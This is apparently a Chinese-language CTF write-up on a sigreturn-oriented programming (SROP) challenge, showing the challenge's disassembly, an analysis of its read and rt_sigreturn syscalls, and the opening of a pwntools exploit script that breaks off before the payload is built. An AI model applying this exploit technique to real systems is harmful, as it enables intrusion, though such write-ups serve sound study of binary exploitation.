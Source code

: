 ```asm wrap=false showLineNumbers=false ins={35}
.shellcode:0000000010000012                     syscall                 ; LINUX - sys_rt_sigreturn
.shellcode:0000000010000014                     int     3               ; Trap to Debugger
.shellcode:0000000010000015
.shellcode:0000000010000015     syscall:                                ; LINUX - sys_rt_sigreturn
.shellcode:0000000010000015                     syscall
.shellcode:0000000010000017                     xor     rdi, rdi        ; Logical Exclusive OR
.shellcode:000000001000001A                     mov     rax, 3Ch ; '<'
.shellcode:0000000010000021                     syscall                 ; LINUX - sys_exit
.shellcode:0000000010000021     ; ---------------------------------------------------------------------------
.shellcode:0000000010000023     flag            db 'fake_flag_here_as_original_is_at_server',0
.shellcode:0000000010000023     _shellcode      ends
.shellcode:0000000010000023
```

可以看到这是一个非常简单的程序，单纯的就是为了考 SROP，以至于出题人都直接手撸汇编了。

注意到 flag 被硬编码在 `0x10000023` 这个位置了，所以我们的目标就是输出这个地址处的内容。由于这个程序没开 ASLR 什么的保护，拿下它还是非常轻松的。

简单分析一下这个程序，我们知道它在第一个 `syscall` 处调用了 `read`，从 `stdin` 读取了 `0x400` bytes 到栈上。紧接着第二个 `syscall` 直接帮我们调用了 `rt_sigreturn`，那就不用我们自己动手了，我们只要伪造并发送 `sigcontext` 栈帧即可。思路是伪造一个 `SYS_write` 的调用，将 flag 输出到 `stdout`。

### Exploit

```python
#!/usr/bin/python3

from contextlib import contextmanager

from pwn import (
    ELF,
    ROP,
    SigreturnFrame,
    constants,
    context,
    gdb,
    log,
    process,
    remote,
)

context(log_level="debug", terminal="kitty")

FILE = "./funsignals_player_bin"
HOST, PORT = "localhost", 1337

gdbscript = """
b *_start+11
c
"""


@contextmanager
def launch(local=True, debug=False, aslr=False, argv=None, envp=None):
    target = None

    try:
        if local:
            global elf

            elf = ELF(FILE)
            context.binary = elf

            target = (
```